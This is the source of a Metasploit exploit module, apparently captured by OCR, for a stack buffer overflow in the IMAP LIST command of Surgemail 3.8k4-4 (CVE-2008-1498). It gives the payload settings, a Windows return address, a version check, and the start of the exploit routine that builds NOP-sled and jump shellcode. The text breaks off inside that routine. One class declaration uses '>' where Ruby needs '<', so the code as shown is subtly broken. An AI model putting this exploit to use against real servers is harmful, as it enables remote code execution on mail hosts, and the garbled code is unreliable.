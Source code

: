 ```
# http://metasploit.com/projects/Framework/
##


require 'msf/core'


class Metasploit3 > Msf::Exploit::Remote

    include Msf::Exploit::Remote::Imap

    def initialize(info = {})
        super(update_info(info,   
            'Name'           => 'Surgemail 3.8k4-4 IMAPD LIST Buffer Overflow',
            'Description'    => %q{
                This module exploits a stack overflow in the Surgemail IMAP Server
                version 3.8k4-4 by sending an overly long LIST command. Valid IMAP
                account credentials are required.
            },
            'Author'         => [ 'ryujin' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 1 $',
            'References'     =>
                [
                    [ 'BID', '28260' ],
                    [ 'CVE', '2008-1498' ],
                    [ 'URL', 'http://www.milw0rm.com/exploits/5259' ],
                ],
            'Privileged'     => false,
            'DefaultOptions' =>
                {
                    'EXITFUNC' => 'thread',
                },
            'Payload'        =>
                {
                    'Space'       => 10351,
                    'EncoderType' => Msf::Encoder::Type::AlphanumMixed,
                    'DisableNops' => true,
                    'BadChars'    => "\x00"
                },
            'Platform'       => 'win',
            'Targets'        =>
                [
                    [ 'Windows Universal', { 'Ret' => "\x7e\x51\x78" } ], # p/p/r 0x0078517e
                ],
            'DisclosureDate' => 'March 13 2008',
            'DefaultTarget' => 0))
    end

    def check
        connect
        disconnect
        if (banner and banner =~ /(Version 3.8k4-4)/)
            return Exploit::CheckCode::Vulnerable
        end
        return Exploit::CheckCode::Safe
    end

    def exploit
        connected = connect_login
        nopes = "\x90"*(payload_space-payload.encoded.length) # to be fixed with make_nops()
        sjump = "\xEB\xF9\x90\x90"     # Jmp Back
        njump = "\xE9\xDD\xD7\xFF\xFF" # And Back Again Baby  ;)         
```